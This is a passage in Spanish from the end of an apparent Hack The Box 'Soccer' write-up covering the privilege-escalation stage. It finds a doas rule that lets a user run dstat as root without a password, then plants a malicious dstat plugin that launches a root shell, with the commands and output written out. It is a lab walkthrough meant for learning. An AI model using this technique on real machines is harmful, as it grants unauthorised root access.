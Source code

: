 ~~~bash
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
~~~

El primero que vemos no me suena de nada, así que buscamos información del mismo y vemos que tiene un fichero de configuración, supuestamente en /etc/doas.conf, pero no lo localizo, así que lo buscamos y lo revisamos:

~~~bash
player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
~~~

Nos indica que podemos usar *dstat* como root con doas, así que nos vamos a nuestro compañero <https://gtfobins.github.io/gtfobins/dstat/> para ver cómo aprovecharnos de esto:

~~~
player@soccer:~$ echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
player@soccer:~$ /usr/local/bin/doas /usr/bin/dstat --xxx
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# cd /root
# ls
app  root.txt  run.sql  snap
# cat root.txt
~~~

Con esto hemos finalizado la máquina. Las de Hack The Box son bastante más complejas y se me atragantan en ciertos puntos bastante, pero están bien porque se aprenden muchas cosas. Nos vemos en la siguiente.
